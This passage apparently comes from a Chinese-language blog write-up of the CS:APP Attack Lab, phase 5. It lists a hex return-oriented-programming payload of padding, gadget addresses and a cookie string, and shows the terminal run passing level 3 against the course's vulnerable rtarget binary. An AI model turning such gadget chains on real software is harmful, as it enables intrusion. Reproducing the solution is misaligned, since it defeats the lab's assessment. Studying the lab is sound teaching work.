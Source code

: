 ~~~assembly

### 插入touch3的执行位置
~~~

![](C:\Github_io\source\img\csapp\attack_phase5.png)

- 二进制转十六进制

~~~
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
ad 1a 40 00 00 00 00 00 
a2 19 40 00 00 00 00 00 
cc 19 40 00 00 00 00 00 
48 00 00 00 00 00 00 00 
dd 19 40 00 00 00 00 00 
70 1a 40 00 00 00 00 00 
13 1a 40 00 00 00 00 00 
d6 19 40 00 00 00 00 00 
a2 19 40 00 00 00 00 00 
fa 18 40 00 00 00 00 00 
35 39 62 39 39 37 66 61
~~~

#### 结果

~~~bash
lzy@DESKTOP-PS05SI3:~/csapp/attacklab/attacklab/target1$ ./hex2raw < phase5.txt | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AD 1A 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 CC 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 DD 19 40 00 00 00 00 00 70 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 
~~~

